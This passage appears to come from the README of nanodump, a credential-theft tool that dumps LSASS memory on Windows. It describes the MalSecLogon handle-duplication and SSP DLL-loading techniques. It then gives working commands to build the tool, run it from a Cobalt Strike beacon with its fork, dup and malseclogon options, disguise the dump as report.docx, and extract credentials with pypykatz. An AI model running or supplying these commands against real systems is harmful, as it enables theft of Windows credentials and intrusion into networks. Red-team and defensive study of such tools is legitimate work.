       - Settings the handles in the `lpStartupInfo` from handles from the
        LSASS process.

    More information on this technique can be found in
    [Antonio Cocomazzi's MalSecLogon discovery blogpost](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html).

    If used alone the `--malseclogon` option will result in a `nanodump.exe`
    binary to be written to disk (to use to spawn the new process with
    `CreateProcessWithLogonW`). The `--malseclogon` and `--dup` can be combined
    with `--binary <BINARY_PATH>` to spawn an arbitrary process and use the
    duplicate handle technique on this process to access LSASS handle.

  - By loading `nanodump` (`DLL` version) as a
    `Security Service Provider (SSP)` in LSASS and conducting the memory dump
    directly from code executed within the LSASS process. More
    information on this technique can be found in
    [xpn's Exploring Mimikatz - Part 2 - SSP blogpost](https://blog.xpnsec.com/exploring-mimikatz-part-2/).
    Following the dump, `nanodump` `DllMain` will return FALSE to make LSASS
    unload the `DLL`.

```bash
# nanodump compilation.
# On Linux, required for BOF.
make -f Makefile.mingw
# On Windows, with the Microsoft Visual C++ (MSVC) compiler toolset.
nmake -f Makefile.msvc

# nanodump can be used directly from a beacon session, after importation of the NanoDump.cna Aggressor script.
# Cobalt Strike -> Script Manager -> Load / Reload -> NanoDump.cna
beacon > nanodump

# Default technique using an PROCESS_VM_READ handle.
# If executed as a BOF through a beacon session, the dump file will not be written to disk.
# If executed as a standalone binary, the dump fill will be written by default at C:\Windows\Temp\report.docx.
nanodump [--write <OUTPUT_DUMP_FILE>]

# Uses the fork technique to dump LSASS memory.
nanodump --fork

# Uses the duplicate handle technique to dump LSASS memory.
nanodump --dup

# Uses the MalSeclogon technique and then the duplicate handle technique (as the process spawned by the Secondary Logon Service will have an handle opened on LSASS) to dump LSASS memory.
# The <BINARY_PATH> process will be spawned as child of LSASS.
nanodump --malseclogon --dup --binary <BINARY_PATH>

# Loads nanodump DLL as a SSP in LSASS to dump LSASS memory.
# If no DLL is specified, a DLL with a random name will be automatically placed ion the Temp folder.
# By default, the dump will be written to disk with an invalid signature at C:\Windows\Temp\report.docx.
# The dump output path can be changed in the dump_path variable of the NanoDump function in the entry.c file.
beacon> load_ssp [<NANODUMP_DLL_PATH>]

# Following the retrieval of the dump, the dump file signature should be first restored (if --valid was not used to generate the dump file).
bash restore_signature.sh <DUMP_FILE>

# Then mimikatz or pypykatz  can be used to extract the credentials from the dump.
python3 -m pypykatz lsa minidump <DUMP_FILE>
```
